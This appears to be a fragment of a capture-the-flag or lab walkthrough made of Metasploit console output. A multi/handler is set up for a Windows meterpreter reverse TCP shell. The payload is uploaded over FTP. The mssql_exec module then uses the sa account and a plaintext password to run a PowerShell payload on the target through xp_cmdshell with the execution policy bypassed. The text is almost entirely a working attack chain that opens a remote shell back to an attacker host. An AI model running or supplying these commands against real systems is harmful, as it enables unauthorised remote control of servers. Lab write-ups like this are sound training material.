 msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

Name Current Setting Required Description  
---- --------------- -------- -----------

Payload options (windows/x64/meterpreter/reverse_tcp):

Name Current Setting Required Description  
---- --------------- -------- -----------  
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)  
LHOST yes The listen address  
LPORT 4444 yes The listen port

Exploit target:

Id Name  
-- ----  
0 Wildcard Target

msf exploit(multi/handler) > set lhost 10.10.14.64  
lhost => 10.10.14.64  
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.64:4444

upload payload via filzeilla

![9tally](https://imgur.com/GM1LQpH.jpg)

msf > use auxiliary/admin/mssql/mssql_exec  
msf auxiliary(admin/mssql/mssql_exec) > show options

Module options (auxiliary/admin/mssql/mssql_exec):

Name Current Setting Required Description  
---- --------------- -------- -----------  
CMD cmd.exe /c echo OWNED > C:\owned.exe no Command to execute  
PASSWORD no The password for the specified username  
RHOST yes The target address  
RPORT 1433 yes The target port (TCP)  
TDSENCRYPTION false yes Use TLS/SSL for TDS data "Force Encryption"  
USERNAME sa no The username to authenticate as  
USE_WINDOWS_AUTHENT false yes Use windows authentification (requires DOMAIN option set)

msf auxiliary(admin/mssql/mssql_exec) > set cmd "powershell -ExecutionPolicy bypass -NoExit -File C:\\FTP\\Intranet\\payload.ps1"  
cmd => powershell -ExecutionPolcy bypass -NoExit -File C:\FTP\Intranet\payload.ps1  
msf auxiliary(admin/mssql/mssql_exec) > set rhost 10.10.10.59  
rhost => 10.10.10.59  
msf auxiliary(admin/mssql/mssql_exec) > set password GWE3V65#6KFH93@4GWTG2G  
password => GWE3V65#6KFH93@4GWTG2G

msf auxiliary(admin/mssql/mssql_exec) > exploit

[*] 10.10.10.59:1433 - SQL Query: EXEC master..xp_cmdshell 'powershell -ExecutionPolicy bypass -NoExit -File C:\FTP\Intranet\payload.ps1'  
[*] Auxiliary module execution completed
